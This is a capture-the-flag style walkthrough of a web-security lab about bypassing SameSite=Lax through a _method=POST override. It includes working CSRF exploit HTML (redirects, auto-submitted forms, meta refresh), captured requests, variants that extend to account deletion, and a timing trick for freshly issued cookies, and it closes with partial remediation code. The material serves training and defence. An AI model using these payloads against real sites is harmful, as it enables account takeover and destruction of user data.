

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔍 Identify CSRF vulnerability with no unpredictable tokens
- 🎯 Understand SameSite Lax cookie restrictions and what they allow
- 🌐 Recognize that no explicit SameSite = browser defaults to Lax
- 💡 Discover that Lax permits cookies on cross-site GET top-level navigations
- 🔀 Find that the endpoint supports `_method` parameter to override HTTP method
- 📡 Craft a GET request that the server treats as POST via `_method=POST`
- 🚀 Use `document.location` redirect to trigger a top-level navigation (not a form submit)
- 🎪 Deliver exploit via exploit server to change victim's email
- 🚨 Bypass SameSite Lax by abusing method override on a top-level GET
- 🎉 Complete lab successfully

---

## 🧠 **Concept Recap**

> **SameSite Lax bypass via method override** exploits a combination of two weaknesses: the browser's default SameSite=Lax behaviour (which allows session cookies on cross-site GET top-level navigations), and a server-side method override feature (`_method=POST`) that lets a GET request be treated as a POST. Together, these allow an attacker to trigger a state-changing POST action — with the victim's session cookie attached — using nothing more than a redirect to a crafted URL.

### 📊 **The Vulnerability**

**How SameSite Lax works normally:**

```r
SameSite=Lax cookie rules:

Cross-site GET (top-level navigation): ✅ Cookie sent
  Example: <a href="...">, document.location=, window.open()
  └── Browser treats this as a "safe" top-level navigation
      └── Session cookie IS included

Cross-site GET (sub-resource): ❌ Cookie NOT sent
  Example: , <script src="...">, fetch(), XHR
  └── Browser treats these as passive loads
      └── Session cookie NOT included

Cross-site POST: ❌ Cookie NOT sent
  Example: <form method="POST" ...>, fetch with POST
  └── State-changing method from different site
      └── Session cookie NOT included ← CSRF protection!

Same-site (any method): ✅ Cookie always sent
  └── Request originates from same site
      └── No SameSite restriction applies
```

**The method override trick:**

```r
Normal POST (blocked by SameSite Lax):
  Browser: Cross-site POST → session cookie NOT sent ❌
  Result: Server sees request without session → rejected

GET with _method override (bypasses SameSite Lax):
  Browser: Cross-site GET → session cookie IS sent ✓
  Server: Sees _method=POST → treats request as POST ✓
  Result: Server processes state change WITH session! 💥

The gap:
└── Browser sees: GET request (safe, sends Lax cookie)
    └── Server sees: POST request (state change, processes it)
        └── Security model mismatch! 💣
```

**Full attack flow:**

```r
Attacker crafts redirect URL:
https://lab.net/my-account/change-email
  ?email=attacker@evil.com
  &_method=POST

         ↓

Exploit page triggers top-level navigation:
<script>
  document.location = "https://lab.net/my-account/change-email
    ?email=attacker@evil.com&_method=POST";
</script>

         ↓

Victim's browser:
  "This is a GET top-level navigation to lab.net"
  "SameSite=Lax allows cookies on cross-site GET navigations"
  → Sends session cookie ✓

         ↓

Server receives:
  GET /my-account/change-email?email=attacker@evil.com&_method=POST
  Cookie: session=VICTIM_SESSION ✓

         ↓

Server logic:
  "I see _method=POST in the query string"
  "I will treat this as a POST request"
  → Processes email change ✓

         ↓

Victim's email changed! 💥
```

**Key Insight:**

```r
Why this bypass works — three factors aligning:

1. No explicit SameSite set on session cookie:
   └── Server sets: Set-Cookie: session=abc123; HttpOnly; Secure
       └── No SameSite attribute!
           └── Browser Chrome/modern defaults to Lax
               └── Lax allows GET navigations cross-site ✓

2. SameSite Lax permits top-level GET navigations:
   └── The exception was designed for:
       ├── OAuth redirects back to the app
       ├── Email confirmation links
       └── External links to the site
   └── But also allows any cross-site GET with top-level nav
       └── Attacker exploits this "safe" exception! 💣

3. Server supports _method parameter override:
   └── Common in frameworks (Ruby on Rails, Laravel, etc.)
   └── Designed for HTML forms (can't send PUT/DELETE via form)
   └── Allows: GET + _method=POST → treated as POST
       └── Server-side workaround creates client-side bypass! 💥

Why top-level navigation is critical:
└── document.location redirect = top-level navigation ✓
    └── Browser classifies this as "safe GET"
        └── Sends Lax cookies

└── fetch() / XMLHttpRequest = sub-resource ❌
    └── Browser classifies as sub-resource request
        └── Does NOT send Lax cookies
        └── Would NOT work for this attack!

└── <form method="GET"> submit = top-level navigation ✓
    └── Also sends Lax cookies
    └── Alternative exploit method ✓

The trap developers fall into:
└── "We use SameSite=Lax (or browser defaults to Lax)"
    └── "POST requests are blocked cross-site" ✓
        └── "We're protected from CSRF!" ✓
            └── "But our framework supports _method override..."
                └── "...and GET is allowed under Lax!"
                    └── The two assumptions break each other! 💣

Real-world developer thought process:
└── "Modern browsers default to Lax"
    └── "Lax blocks cross-site POST"
        └── "No CSRF tokens needed!"
            └── "Done! Secure!" ✓
                └── Never tested _method override via GET! ❌
                    └── Vulnerability introduced! ⚠️
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the lab page
3. 📝 Note credentials: `wiener:peter`
4. 🌐 Use **Chrome** or **Burp's built-in Chromium browser**

**Lab description:**

```
Lab: SameSite Lax bypass via method override

Vulnerability:
└── Email change has no CSRF tokens
    └── Session cookie has no explicit SameSite → defaults to Lax
        └── Endpoint supports _method override
            └── GET + _method=POST bypasses Lax! 💣

Goal:
└── Use exploit server to change victim's email address
    └── Using top-level GET navigation with _method=POST 🎯

Important:
└── Must use Chrome (victim uses Chrome)
    └── Other browsers may handle Lax defaults differently
        └── Chrome's Lax default is what makes this exploitable!
```

---

### 🔐 **Step 2 — Login to Account**

1. 🖱️ Click **"My account"**
2. 📝 Enter credentials:
    - Username: `wiener`
    - Password: `peter`
3. 🚀 Click **"Login"**

**After login:**

```
┌────────────────────────────────────┐
│ My Account                         │
├────────────────────────────────────┤
│                                    │
│ Username: wiener                   │
│                                    │
│ Email: wiener@normal-user.net      │
│                                    │
│ Update email:                      │
│ [____________________________]     │
│                                    │
│ [Update email]                     │
│                                    │
└────────────────────────────────────┘
```

---

### 🔍 **Step 3 — Inspect the Login Response for SameSite**

**Critical first check — look at how session cookie is set:**

1. 🌐 Open Burp Suite → **Proxy → HTTP History**
2. 🔎 Find the `POST /login` response
3. 👀 Inspect the `Set-Cookie` header

**Login response:**

```HTTP
HTTP/2 302 Found
Location: /my-account
Set-Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE; HttpOnly; Secure

                   ↑
        NO SameSite attribute! ← Key observation
```

**Analysis:**

```
Cookie attributes present:
├── HttpOnly ✓ (JS cannot read cookie)
├── Secure ✓ (HTTPS only)
└── SameSite: NOT SET ← Critical!

What "no SameSite" means:
└── Chrome and modern browsers apply Lax by default
    └── This is the browser's "Lax-by-default" policy
        └── Introduced ~2020 as a security improvement

SameSite=Lax behaviour:
├── Cross-site GET top-level navigation: ✅ Cookie sent
└── Cross-site POST: ❌ Cookie NOT sent

Developer's assumption:
└── "Lax default protects us from CSRF POST attacks"
    └── TRUE for standard cross-site POST ✓
        └── But what about _method override? 🤔
```

---

### 📨 **Step 4 — Capture Email Change Request**

1. ✏️ Enter test email: `test@example.com`
2. 🚀 Click **"Update email"**
3. 👀 Find the request in Burp **Proxy → HTTP History**

**Intercepted POST request:**

```HTTP
POST /my-account/change-email HTTP/2
Host: 0abc1234def5678.web-security-academy.net
Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

email=test%40example.com
```

**Analysis — no CSRF token!**

```HTTP
What's in the request:
├── Method: POST ✓
├── Session cookie: present ✓
├── email parameter ✓
└── CSRF token: NONE! ← Important!

No CSRF protection via tokens:
└── Application relies ENTIRELY on SameSite Lax
    └── Assumption: "Cross-site POST blocked by browser"
        └── If we can make server treat GET as POST...
            └── ...Lax doesn't block it! 💣

Attack surface identified:
├── No CSRF token to steal or forge ✓
├── No Referer validation to bypass ✓
└── Only SameSite Lax stands between us and the attack
    └── Let's bypass it! 🎯
```

---

### 🔄 **Step 5 — Send to Burp Repeater**

1. 🖱️ **Right-click** on the email change request
2. 📋 Select **"Send to Repeater"**
3. 📑 Switch to **"Repeater"** tab

---

### 🔀 **Step 6 — Convert POST to GET**

**First — see what happens with a plain GET:**

1. 🖱️ **Right-click** anywhere in the request area in Repeater
2. 📋 Select **"Change request method"**

**Burp converts automatically:**

```HTTP
BEFORE (POST):
POST /my-account/change-email HTTP/2
Host: 0abc1234def5678.web-security-academy.net
Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE
Content-Type: application/x-www-form-urlencoded

email=test%40example.com

         ↓ "Change request method" ↓

AFTER (GET):
GET /my-account/change-email?email=test%40example.com HTTP/2
Host: 0abc1234def5678.web-security-academy.net
Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE
```

3. 🚀 Click **"Send"**
4. 👀 Observe response

**Expected response — endpoint rejects plain GET:**

```HTTP
HTTP/2 405 Method Not Allowed

"Method Not Allowed"
```

**Result:**

```
❌ Plain GET is rejected
❌ Server enforces POST for this endpoint
💡 But what if we tell the server to treat GET as POST?
    └── Many frameworks support _method override!
        └── Let's test! 🧪
```

---

### 🧪 **Step 7 — Test `_method` Parameter Override**

**Add `_method=POST` to the GET query string:**

1. ✏️ Modify the GET request URL:

```HTTP
BEFORE:
GET /my-account/change-email?email=test%40example.com HTTP/2

         ↓ Add &_method=POST ↓

AFTER:
GET /my-account/change-email?email=test2%40example.com&_method=POST HTTP/2
Host: 0abc1234def5678.web-security-academy.net
Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE
```

2. 🚀 Click **"Send"**
3. 👀 Observe response

**Expected response — override accepted!**

```HTTP
HTTP/2 302 Found
Location: /my-account
```

4. 🌐 Visit `/my-account` in the browser
5. 👀 Verify email was changed

**VULNERABILITY CONFIRMED!**

```
🎯 Critical Discovery:

✅ GET + _method=POST = server treats it as POST!
✅ Email changed successfully via GET request!
✅ Browser will send Lax cookies on top-level GET navigations!

The full picture:
└── Server supports _method override ✓
    └── GET + _method=POST = processed as POST ✓
        └── Browser sends Lax cookies on cross-site GET top-nav ✓
            └── Three conditions met → bypass complete! 💣

Why this works end-to-end:
├── Attacker page does: document.location = URL (top-level GET)
├── Browser: "GET to different site → Lax cookie allowed!" → sends session ✓
├── Server: "I see _method=POST" → processes as POST ✓
└── Email changed! 💥
```

---

### 📝 **Step 8 — Understand the Exploit Requirements**

**What our exploit must do:**

```HTML
Requirements for the attack:

1. Must be a top-level GET navigation
   └── NOT: fetch(), XHR, , <script src>
       └── These are sub-resources → Lax blocks cookies ❌
   └── YES: document.location, window.location.href, <a href> click
       └── These are top-level navigations → Lax allows cookies ✓

2. Must include _method=POST in query string
   └── So server treats the GET as POST ✓

3. Must include email parameter
   └── The state-changing value we want to inject ✓

4. Browser must send session cookie automatically
   └── Lax + top-level GET = cookie sent ✓
   └── No token needed — no CSRF protection present! ✓

Simplest approach — redirect via document.location:
<script>
    document.location = "https://LAB-ID.web-security-academy.net/my-account/change-email?email=evil@attacker.com&_method=POST";
</script>

Why document.location works:
├── Creates a top-level navigation ✓
├── Browser navigates victim to the URL ✓
├── Session cookie included (Lax allows) ✓
├── Server sees _method=POST → processes it ✓
└── Email changed! 💥

Alternative: GET form redirect
<form method="GET" action="https://LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="evil@attacker.com">
    <input type="hidden" name="_method" value="POST">
</form>
<script>document.forms[0].submit();</script>

Why this also works:
└── GET form submit = top-level navigation ✓
    └── Lax cookies included ✓
```

---

### 🌐 **Step 9 — Access Exploit Server**

1. 🔙 Go back to lab page
2. 🖱️ Click **"Go to exploit server"**

**Exploit server interface:**

```
┌────────────────────────────────────────────────────────┐
│ Exploit Server                                         │
├────────────────────────────────────────────────────────┤
│                                                        │
│ Response headers:                                      │
│ HTTP/1.1 200 OK                                        │
│ Content-Type: text/html; charset=utf-8                 │
│                                                        │
│ Body:                                                  │
│ [______________________________________]               │
│ [______________________________________]               │
│                                                        │
│ [Store] [View exploit] [Deliver exploit to victim]     │
└────────────────────────────────────────────────────────┘
```

---

### 📝 **Step 10 — Create the Exploit HTML**

**Paste into Body field:**

```html
<script>
    document.location = "https://0abc1234def5678.web-security-academy.net/my-account/change-email?email=hacker@evil.com&_method=POST";
</script>
```

**Replace:**

- `0abc1234def5678` with YOUR lab ID
- `hacker@evil.com` with your test email first

**Full exploit anatomy:**

```r
<script>
    document.location = "https://[LAB-ID].web-security-academy.net
        /my-account/change-email
        ?email=hacker@evil.com
        &_method=POST";
</script>

Breaking it down:

document.location = "URL"
└── Redirects victim's browser to URL
└── This IS a top-level navigation ✓
    └── Browser classifies as "safe GET"
    └── SameSite=Lax → session cookie included ✓

URL components:
├── /my-account/change-email → The target endpoint
├── ?email=hacker@evil.com  → Attacker's email value
└── &_method=POST           → Override: treat GET as POST

What victim's browser sends:
  GET /my-account/change-email?email=hacker@evil.com&_method=POST HTTP/2
  Host: [LAB-ID].web-security-academy.net
  Cookie: session=VICTIM_SESSION ← Lax sends this! ✓
  Referer: https://exploit-server.net/

What server sees:
  ├── Method: GET (from browser)
  ├── _method=POST (in query string)
  ├── "I'll treat this as POST!" ← Framework override
  ├── email=hacker@evil.com
  └── Session valid ✓
      └── Email changed! 💥

Why no CSRF token needed:
└── This application has NO CSRF tokens at all
    └── Relies only on SameSite Lax
        └── Which we're bypassing via _method! ✓
```

---

### 💾 **Step 11 — Store and Test on Yourself**

1. 💾 Click **"Store"**
2. 👁️ Click **"View exploit"**

**What happens in your browser:**

```r
Exploit page loads
         ↓
Browser encounters <script> tag
         ↓
document.location assignment executes
         ↓
Browser performs top-level navigation:
  GET /my-account/change-email?email=hacker@evil.com&_method=POST
  Cookie: session=YOUR_SESSION ← SameSite=Lax sends this for top-level GET ✓
         ↓
Server receives request:
  ├── Reads _method=POST → processes as POST
  ├── Reads email=hacker@evil.com
  ├── Session valid ✓
  └── Updates email ✓
         ↓
302 redirect to /my-account
         ↓
Browser navigates to My Account page
```

**Verification:**

```
Check My Account page:
┌────────────────────────────────────┐
│ My Account                         │
├────────────────────────────────────┤
│                                    │
│ Username: wiener                   │
│                                    │
│ Email: hacker@evil.com ← Changed!  │
│                                    │
└────────────────────────────────────┘

✅ Email changed via SameSite Lax bypass!
✅ document.location → top-level GET → cookie sent!
✅ _method=POST → server processed as POST!
💡 Now update email for victim delivery!
```

---

### 🔄 **Step 12 — Update Email for Victim**

**Important:** Use a different unused email address!

1. 🔙 Go back to exploit server
2. ✏️ Change the email:

```html
<script>
    document.location = "https://0abc1234def5678.web-security-academy.net/my-account/change-email?email=pwned@attacker.com&_method=POST";
</script>
```

3. 💾 Click **"Store"**

**Why different email:**

```
Problem:
└── Already changed your email to hacker@evil.com
    └── That address is now taken
        └── Victim cannot use same email

Solution:
└── Use fresh unused email for victim
    ├── pwned@attacker.com
    ├── victim@owned.net
    └── Or any address not already registered

This ensures victim's email change succeeds! ✓
```

---

### 🎯 **Step 13 — Deliver Exploit to Victim**

1. 🚀 Click **"Deliver exploit to victim"**
2. ⏳ Wait for confirmation

**Attack execution against victim:**

```r
Lab simulation starts:
         ↓
1. Simulated victim (Carlos) is logged in
   └── Has valid session cookie
   └── Browser: Chrome (SameSite=Lax default active)
   
2. Victim visits your exploit URL
   └── https://exploit-XXXXX.exploit-server.net/
   
3. Exploit page loads
         ↓
4. <script> executes:
   document.location = "https://LAB.net/my-account/change-email
     ?email=pwned@attacker.com&_method=POST"
         ↓
5. Browser performs top-level navigation (GET):
   GET /my-account/change-email?email=pwned@attacker.com&_method=POST
   Host: 0abc1234def5678.web-security-academy.net
   Cookie: session=VICTIM_SESSION ← Lax allows cross-site top-level GET! ✓
         ↓
6. Server processes request:
   ├── Sees _method=POST → routes as POST handler
   ├── Reads email=pwned@attacker.com
   ├── Validates session: VALID ✓
   └── Updates email in database ✓
         ↓
7. Victim's email changed:
   └── FROM: carlos@...
   └── TO: pwned@attacker.com
         ↓
8. Lab validation:
   └── Detects victim's email changed ✓
   └── Lab solved! 🎉
```

---

### ✅ **Step 14 — Lab Completion**

**Success banner:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  You successfully bypassed          │
│  SameSite=Lax restrictions using    │
│  HTTP method override via the       │
│  _method parameter.                 │
│                                     │
│  Lab: SameSite Lax bypass via       │
│       method override               │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab and login
         → wiener:peter (use Chrome!)
         ↓
Step 2: Navigate to My Account
         → Observe email change form
         ↓
Step 3: Check login response headers
         → POST /login response
         → Set-Cookie: session=...; HttpOnly; Secure
         → NO SameSite attribute! ← browser defaults to Lax
         ↓
Step 4: Capture email change POST
         → POST /my-account/change-email
         → Body: email=test@example.com
         → NO CSRF token anywhere!
         → App relies solely on SameSite Lax
         ↓
Step 5: Send to Repeater
         ↓
Step 6: Convert POST to GET
         → "Change request method" in Repeater
         → Send plain GET
         → 405 Method Not Allowed ← endpoint blocks GET
         ↓
Step 7: Test _method override
         → GET /my-account/change-email?email=test2@...&_method=POST
         → Send
         → 302 redirect → email changed! ✓
         → _method=POST override works! 💥
         ↓
Step 8: Understand exploit requirements
         → Must be top-level GET navigation
         → document.location = URL triggers top-level nav
         → SameSite=Lax allows session cookie on top-level GET ✓
         ↓
Step 9: Create exploit
         → <script>document.location = "...?email=evil@...&_method=POST"</script>
         → Paste into exploit server Body
         ↓
Step 10: Store and test on yourself
          → View exploit
          → Browser navigates (top-level GET)
          → Session cookie sent (Lax allows)
          → Server processes as POST
          → Email changed ✓
         ↓
Step 11: Update email for victim
          → Use different unused email
          → Store again
         ↓
Step 12: Deliver to victim
          → Click "Deliver exploit to victim"
          → Victim redirected via document.location
          → Top-level GET fires with session cookie
          → _method=POST → server processes it
          → Victim's email changed! 💥
         ↓
Step 13: Lab solved! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **SameSite Cookie Attribute Deep Dive**

```r
SameSite values and their behaviour:

SameSite=Strict:
├── Same-site requests: ✅ Cookie sent
└── Cross-site requests: ❌ Cookie NEVER sent (any method)
    └── Most secure, but breaks OAuth flows and external links

SameSite=Lax:
├── Same-site requests: ✅ Cookie sent (all methods)
├── Cross-site GET top-level navigation: ✅ Cookie sent
│   └── document.location, <a href> click, window.location.href
│       └── "Top-level" = changes the browser's address bar
└── Cross-site GET sub-resource: ❌ Cookie NOT sent
    └── , <script>, fetch(), XHR, <iframe>
        └── "Sub-resource" = does NOT change address bar
└── Cross-site POST: ❌ Cookie NOT sent

SameSite=None:
├── All requests: ✅ Cookie always sent
├── Requires Secure attribute ⚠️
└── No protection from CSRF!

No SameSite attribute (this lab):
└── Chrome/modern browsers → apply Lax by default
    └── Older browsers → may apply None (no restriction!)
        └── Inconsistency across browsers! ⚠️

What "top-level navigation" means:
└── The navigation changes the page shown in the browser tab
    ├── URL in address bar changes ✓
    ├── Browser history entry added ✓
    └── Page completely replaces current content ✓

What "sub-resource" means:
└── The request loads content INTO the current page
    ├── URL in address bar does NOT change ✓
    ├── Browser history NOT updated ✓
    └── Current page stays, resource loads within it ✓

Why Lax allows top-level GET:
└── Design decision:
    ├── Strict was breaking too many legitimate flows
    │   └── OAuth: external site → redirect back → cookie needed!
    │   └── Email links: click → land on site → need session!
    └── Compromise: "GET is safe, POST is dangerous"
        └── Allow GET navigations (for usability)
        └── Block POST (for security)
            └── But _method override breaks this assumption! 💣
```

---

### **HTTP Method Override — `_method` Parameter**

```r
Why _method exists:

HTML limitation:
└── HTML forms only support GET and POST
    └── Cannot send PUT, PATCH, DELETE via native form
        └── REST APIs need these methods! ⚠️

Framework solution:
└── Middleware reads _method parameter
    └── Overrides the actual HTTP method
        └── GET + _method=DELETE → treated as DELETE
        └── POST + _method=PUT → treated as PUT
        └── GET + _method=POST → treated as POST ← our attack!

Frameworks that support _method:
├── Ruby on Rails:   method_override middleware ✓
├── Laravel/PHP:     method field in forms ✓
├── Express.js:      method-override package ✓
├── Django:          not built-in (safer) ✓
└── Spring Boot:     HiddenHttpMethodFilter ✓

Typical Rails usage (legitimate):
<form method="POST" action="/resource/1">
    <input type="hidden" name="_method" value="DELETE">
    <button>Delete</button>
</form>

Browser sends: POST /resource/1 + body: _method=DELETE
Rails sees:    DELETE /resource/1
└── Expected use: POST body contains override ✓

Our attack (abuse):
GET /change-email?email=evil@...&_method=POST
└── Override in query string, not POST body ✓
└── Server still reads it from query params! 💣

Why query string works:
└── Many implementations check both:
    req.query._method || req.body._method
    └── Attacker puts override in query string
        └── Works even on GET requests! ✓

The fundamental mismatch:
└── Browser's security model: based on HTTP method (GET vs POST)
    └── Server's routing logic: overrides that method
        └── Browser thinks: "safe GET"
            └── Server executes: "state-changing POST"
                └── Security boundary defeated! 💣
```

---

### **Why `document.location` is the Right Trigger**

```HTML
Comparing different exploit delivery mechanisms:

document.location = URL  ← CORRECT for this attack ✓
├── Creates: top-level navigation
├── Lax cookie: SENT ✓
├── Browser address bar: changes
└── Verdict: WORKS! ✓

window.location.href = URL  ← Also CORRECT ✓
├── Same as document.location
├── Creates: top-level navigation
├── Lax cookie: SENT ✓
└── Verdict: WORKS! ✓

<a href="URL"> + click  ← CORRECT ✓
├── Creates: top-level navigation
├── Lax cookie: SENT ✓
└── Verdict: WORKS (needs user click) ✓

<a href="URL"> + auto-click via JS  ← CORRECT ✓
link.click()
├── Creates: top-level navigation
├── Lax cookie: SENT ✓
└── Verdict: WORKS! ✓

GET form submit  ← CORRECT ✓
<form method="GET"><input name="_method" value="POST">
├── Creates: top-level navigation
├── Lax cookie: SENT ✓
└── Verdict: WORKS! ✓

fetch(URL, {method:'GET'})  ← WRONG ❌
├── Creates: sub-resource request
├── Lax cookie: NOT SENT ❌
└── Verdict: FAILS (no cookie = no session) ❌

XMLHttpRequest GET  ← WRONG ❌
├── Creates: sub-resource request
├── Lax cookie: NOT SENT ❌
└── Verdict: FAILS ❌

  ← WRONG ❌
├── Creates: sub-resource request (passive)
├── Lax cookie: NOT SENT ❌
└── Verdict: FAILS ❌

<iframe src="URL">  ← WRONG ❌
├── Creates: sub-resource (nested navigation)
├── Lax cookie: NOT SENT for cross-site frames ❌
└── Verdict: FAILS ❌

Key rule:
└── Top-level navigation (changes address bar) → Lax sends cookies ✓
    Sub-resource (loads within page) → Lax does NOT send cookies ❌
```

---

### **Comparison: SameSite Lax vs Strict vs None**

```r
Attack success against each SameSite level:

SameSite=None (or old browsers with no default):
├── Cross-site POST form: WORKS 💥
├── Cross-site GET form: WORKS 💥
├── Fetch/XHR: WORKS 💥
└── Any method bypass trick: unnecessary (already works!) 💣

SameSite=Lax (this lab — browser default):
├── Cross-site POST form: BLOCKED ✓
├── Cross-site fetch/XHR GET: BLOCKED ✓
├── Cross-site top-level GET navigation: ALLOWED 💥
└── GET + _method=POST top-level nav: ALLOWED 💥 ← our attack!

SameSite=Strict:
├── Cross-site POST form: BLOCKED ✓
├── Cross-site GET navigation: BLOCKED ✓
├── _method override trick: BLOCKED ✓
└── Virtually all cross-site attacks: BLOCKED ✓
    └── Most secure but breaks OAuth/external links

Protection summary:
├── None → No CSRF protection at all ❌
├── Lax → Protects against POST CSRF, not GET-with-override ⚠️
└── Strict → Strongest protection, may break UX ✓

Recommendation:
└── Use Strict for all cookies if UX allows ✓
    └── Or use Strict + CSRF tokens as defense in depth ✓
```

---

## 🚀 **Attack Variations**

### **Variation 1: GET Form Instead of document.location**

```r
<!-- Alternative: GET form with _method hidden input -->
<form method="GET" action="https://LAB.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="evil@attacker.com">
    <input type="hidden" name="_method" value="POST">
</form>
<script>
    document.forms[0].submit();
</script>

Why this also works:
├── GET form submit = top-level navigation ✓
├── Lax cookie sent ✓
├── _method=POST in query string ✓
└── Server processes as POST ✓

When to prefer this over document.location:
└── If the URL becomes very long (many parameters)
    └── Form input is cleaner than URL encoding ✓
```

---

### **Variation 2: Anchor Click Trigger**

```r
<!-- Alternative: Invisible link auto-clicked -->
<a id="lnk" href="https://LAB.web-security-academy.net/my-account/change-email?email=evil@attacker.com&_method=POST">
</a>
<script>
    document.getElementById('lnk').click();
</script>

How it works:
├── <a> click = top-level navigation ✓
├── Lax cookie: sent ✓
├── _method=POST: in URL ✓
└── Invisible to user (no visible text) ✓

Drawback:
└── Some browsers may restrict programmatic clicks
    └── document.location is more reliable ✓
```

---

### **Variation 3: window.open() Trigger**

```r
<!-- Alternative: Open in new window -->
<script>
    window.open("https://LAB.web-security-academy.net/my-account/change-email?email=evil@attacker.com&_method=POST");
</script>

How it works:
├── window.open() = top-level navigation (in new tab) ✓
├── Lax cookie: sent ✓
├── _method=POST: in URL ✓
└── Works cross-site ✓

Considerations:
├── May be blocked by popup blockers ⚠️
├── Opens a new tab (user might notice) ⚠️
└── document.location is stealthier ✓
```

---

### **Variation 4: Test Other Override Parameter Names**

**Different frameworks use different override parameters:**

```r
Ruby on Rails default:
  ?_method=POST ← Most common

Laravel/Symfony:
  ?_method=POST (same)

X-HTTP-Method-Override header:
  X-HTTP-Method-Override: POST

X-Method-Override header:
  X-Method-Override: POST

Some custom implementations:
  ?method=POST
  ?http_method=POST
  ?httpmethod=POST

Test all variations:
GET /change-email?email=test&_method=POST
GET /change-email?email=test&method=POST
GET /change-email?email=test&http_method=POST

Headers (less useful for CSRF since attacker can't set headers cross-origin):
X-HTTP-Method-Override: POST
└── Cannot be set via simple forms or document.location ❌
    └── Only exploitable if found in URL/body parameter ✓
```

---

### **Variation 5: Testing Other Methods**

**Override to other HTTP methods too:**

```r
Try different method overrides:

?_method=POST    → Treat as POST ✓ (this lab)
?_method=PUT     → Treat as PUT (update operations)
?_method=PATCH   → Treat as PATCH (partial updates)
?_method=DELETE  → Treat as DELETE (deletion operations!)

Example DELETE CSRF:
document.location = "https://victim.com/account/delete?_method=DELETE";

Potentially catastrophic:
└── Account deletion via GET navigation
    └── No confirmation required
        └── User's account gone! 💣

Test all methods for maximum impact! 🎯
```

---

### **Variation 6: Combined with Missing CSRF Token**

```r
This attack is extra easy here because:
└── No CSRF tokens present at all
    └── Only SameSite Lax protects the endpoint
        └── Which we bypass via _method override

In contrast, if CSRF tokens existed:
└── Even with _method bypass:
    └── Server would also require valid CSRF token
        └── Token tied to session → cannot forge
            └── Attack would fail! ✓

Lesson:
└── SameSite restrictions alone are not sufficient
    └── Must combine with CSRF tokens for defense in depth ✓
    └── SameSite is a useful EXTRA layer, not a replacement! 🛡️
```

---

### **Variation 7: Newly Issued Cookie Window**

```r
Related bypass for fresh cookies:

Chrome's "Lax + POST" exception:
└── For the first 2 minutes after a cookie is set:
    └── Chrome sends the cookie even on cross-site POST
        └── Designed for OAuth flows (Set-Cookie then POST redirect)
            └── Can be abused if attacker times the attack! ⚠️

Attack with timing:
1. Force victim to login (e.g., via logout CSRF first)
2. Victim logs in → fresh session cookie set
3. Within 2 minutes: deliver CSRF exploit
4. Chrome sends cookie even on cross-site POST!

This lab: Not needed (method override is simpler)
But useful to know for harder SameSite Lax labs! 🎯
```

---

### **Variation 8: Meta Refresh Redirect**

```r
<!-- Alternative trigger: Meta refresh -->
<meta http-equiv="refresh"
      content="0; url=https://LAB.web-security-academy.net/my-account/change-email?email=evil@attacker.com&_method=POST">

How it works:
├── Meta refresh = browser-level redirect ✓
├── Counts as top-level navigation ✓
├── Lax cookie: sent ✓
└── _method=POST: in URL ✓

Vs document.location:
├── document.location: JavaScript required ✓
├── meta refresh: works without JavaScript ✓
└── Both create top-level navigations ✓

When to use meta refresh:
└── If victim has JavaScript disabled
    └── meta refresh still works! ✓
```

---
---

## 🛡️ **How to Fix (Secure Code)**

### **Fix 1: Explicitly Set SameSite=Strict**

```r
// ✅ SECURE - Explicitly set Strict, not relying on browser default

// Express.js
app.use(session({
    secret: process.env.SESSION_SECRET,
    cookie: {
        httpOnly: true,
        secure: true,
        sameSite: 'strict'  // Explicitly Strict!
    }
}));

// With SameSite=Strict:
// └── Cross-site GET navigation: BLOCKED ✓
// └── _method override via GET: BLOCKED ✓
// └── Attack fails entirely! ✓

// Why not rely on browser default:
// └── Browser defaults to Lax (not Strict)
// └── Lax still allows GET top-level navigations
// └── Explicit Strict is stronger! ✓

// PHP
setcookie('session', $token, [
    'httponly' => true,
    'secure' => true,
    'samesite' => 'Strict',  // Explicit!
    'path' => '/'
]);
```

---

### **Fix 2: Disable or Restrict Method Override**

```r
// ✅ SECURE — Only allow override from POST body, not GET

// Express.js with method-override package
const methodOverride = require('method-override');

// ❌ VULNERABLE - allows override from query string
app.use(methodOverride('_method'));

// ✅ SECURE - only allow override from POST body
